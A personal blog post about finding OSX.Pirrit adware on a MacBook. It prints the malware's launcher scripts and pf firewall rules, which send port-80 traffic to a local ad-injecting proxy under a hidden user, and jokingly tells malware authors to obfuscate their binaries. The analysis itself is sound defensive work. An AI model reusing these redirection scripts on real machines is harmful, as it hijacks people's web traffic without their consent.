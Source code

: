 +++
slug = "a-nasty-mac-virus"
date = "2016-07-09T15:36:52+02:00"
description = ""
draft = false
tags = []
title = "A Nasty Mac Virus, or How I Learned To Love the App Store"
topics = []

+++

Some time ago my little sister complained that her MacBook was getting slow,
and had frequent freezes, to the point it was barely usable any more.

She also was seeing many ads when browsing, even though she had an ad blocker
instead.

So I lend her my own laptop while I kept hers to investigate.

Here's what happened next ...

<!--more-->

# Mysterious processes

In order to investigate the freezes, I start `htop`[^1] to have a look
at the processes that are running.

I see a bunch of scripts running (as root), and some other
processes running with weird user names:

```text
root          /bin/sh  /etc/branchiosaurian.sh
instroke      /Library/branchiosaurian/Contents/MacOS/branchiosaurian
```

Googling "branchiosaurian virus MacOS" or "instroke user name" leads to nowhere.

# Strange scripts

The process are running from a strange location: it's rare to see `*.sh` scripts
in `/etc`, usually `/etc` is only used for configuration files.

So I decide to see how many there are in `/etc`:


```text
$ ls /etc/*.sh
/etc/Dicyemida.sh*
/etc/Fulah.sh*
/etc/Gothism.sh*
/etc/audile.sh*
/etc/axogamy.sh*
/etc/bacteriohemolysin.sh*
/etc/branchiosaurian.sh*
/etc/duello.sh*
/etc/entry.sh*
/etc/gallflowerUpd.sh*
/etc/hemodystrophy.sh*
/etc/lichenlike.sh*
/etc/overreach.sh*
/etc/retinene.sh*
/etc/run_upd.sh*
/etc/sidereally.sh*
/etc/tealess.sh*
/etc/thiocyanide.sh*
/etc/unwittingly.sh
```

All the scripts look the same, only the weird names
for the process and the user are different:

```bash
if [ -a /Library/branchiosaurian/Contents/MacOS/branchiosaurian ];
then
  sleep 10
  sudo pfctl -evf /etc/branchiosaurian.conf
  sudo -u Benjy /Library/branchiosaurian/Contents/MacOS/branchiosaurian
fi
exit 0
```

Each of them has a matching folder in `/Library/<name>`

`/Library/<name>/Contents/MacOS/<name>` is a Mach-O C++ executable, with
dependencies on Qt4 frameworks stuff (`Qt4Core`, `QtGui` and `QtNetwork`)
in `Contents/Frameworks`, like any `Qt` application.

(Except they are in `/Library` and not `/Applications` ...)


There's also a script in `Contents/MacOS/rec_script.sh` which contains:

```bash
# set redirections
HIDDEN_USER=$(sudo defaults read /Library/Preferences/com.common.plist user_id)
echo $HIDDEN_USER

activeInterface=$(route get default | sed -n -e 's/^.*interface: //p')
if [ -n "$activeInterface" ]; then
    pfData="rdr pass inet proto tcp from $activeInterface to any port 80 -> 127.0.0.1 port 9882\n\
    pass out on $activeInterface route-to lo0  inet proto tcp from $activeInterface to any port 80 keep state\n\
    pass out proto tcp all user "$HIDDEN_USER"\n"
    echo "$pfData" > /etc/pf_proxy.conf
else
    echo "Unable to find active interface"
    exit 1
fi

exit 0
```

And a configuration file in `/etc`

```text
$ cat /etc/branchiosaurian.conf
rdr pass inet proto tcp from en1 to any port 80 -> 127.0.0.1 port 9882
pass out on en1 route-to lo0  inet proto tcp from en1 to any port 80 keep state
pass out proto tcp all user indianaite
```


Finally, a `ps aux` shows a `pfctl` processes running like this:

```text
pfctl -evf /et/<name>.conf
```


So there are a bunch of processes doing something with the network, re-rooting
traffic going through the `80` port to somewhere else. This can't be good ...


# First clue

Confused, I run the only thing I can think of:

```text
$ strings /Library/branchiosaurian/Contents/MacOS/branchiosaurian
...
AdsProxyEngine
userDisabledProxy()
...
```

Ahah! Googling `virus mac AdsProxyEngine` leads to reddit thread:
*[Ever heard of the process uncontainable?](
https://www.reddit.com/r/apple/comments/4g4pup/ever_heard_of_the_process_uncontainable/)*

There's a confused Mac user who is seeing processes with weird names too:
(Here, a `uncontainable` process is running as the `razoredge` user)

# Following the links

Reading the thread leads to the following pages, which explain everything:

* [Analysis of an Intrusive Cross-Platform Adware: OSX/Pirrit](
https://objective-see.com/blog/blog_0x0E.html)

* [Cybereason Labs Analysis: The Minds Behind the OSX.Pirrit Malicious Adware](
  http://www.cybereason.com/cybereason-labs-analysis-the-minds-behind-the-osx-pirrit/)

Here's a quick summary:

1. The virus is known as "OSX.Pirrit": it started as a Windows
   program, and then ported to Mac.

2. The virus installs a program well hidden which intercepts traffic to external
   websites in order to insert ads. That's what causes the freezes, and the fact
   that AdBlock does not seem to work. It's called an "adware" (a portmanteau
   word from "ads" and "software")

3. Fortunately for us, one of the programmers made the mistake of packaging the
   software on its own machine using `tar`, which records the user name and the
   date. That's how the researchers from Cybereason were able to find woh's
   behind the adware: a guy working for TargetingEdge, a "online marketing"
   company.

4. Quoting the article from Cybereason:

> The adware's creators removed the original installers for MPlayerX, NicePlayer
> and VLC, legitimate media players that people can easily download, and replaced
> them with an installer that has OSX.Pirrit as well as the media player.


I knew that my sister had installed MPlayerX, so I looked around, and even
found a thread where someone says that the MPlayerX author himself was offering
the adware bundled with the installer on his web site.
(It's a rumour, no way for me to check if this is true ...)

# Lessons learned

* You can create hidden users on mac (it only takes a few tricks with the
  preferences of the login window)

* You can use `dscl` to display user names (`/etc/passwd` won't help):

```text
$ dscl . -list /Users UniqueID
```

  By the way, that's how you can check whether you are infected with this virus
  or not: the names change, but the user numeric ID is hard-coded and is always
  401 ...

* Using random names from `/usr/share/dict/words` to name things make them really
  hard to find clues using a search engine. (And this file is guaranteed to
  exist on any Mac version!)

* If you create a malware, take the time to strip the executable and obfuscate
  the source code&nbsp;;)

* Also, don't package it on your own machine with your regular account!

* Even if MPlayerX is free, you can buy it from the Apple Store for less than
  2 euros, and it's much safer: you know that Apple has audited the software,
  it's signed, so you know where it comes from, and you don't even have to open
  a web browser and risk downloading stuff from the wrong place.
  (Note that you still have to trust Apple ...)

* If you can't accept the fact that you're gonna have to pay even if you use
  free or open-source stuff on Mac, well, switch to Linux :) There's a great
  article explaining why this kind of nasty stuff can't happen if you use the
  packages provided by your distribution: *[Why Maintainers Matter](
  http://kmkeen.com/maintainers-matter/)*

# Next steps

First, I'm going to reformat and re-install the operating system using
[DiskMaker X](http://diskmakerx.com/), but I don't really know what to tell my
sister so this does not happen again.

Don't tell me to install an antivirus, I know [it won't work](
http://www.ranum.com/security/computer_security/editorials/dumb/)

People tell me there's a GUI from `homebrew`, I'll try that, but if you have
some ideas, (besides only using the Apple Store for now), I'd love to
[hear from you]({{< ref "pages/feedback.md" >}})

There's also the option of only allowing apps from the AppStore
(not even those which are signed with a developer key)


[^1]: Yup, `htop` works really well on Mac too since the 2.0 version. You can learn more about this here: *[How htop Was Made Portable](https://www.youtube.com/watch?v=g5GamptmWeA)*
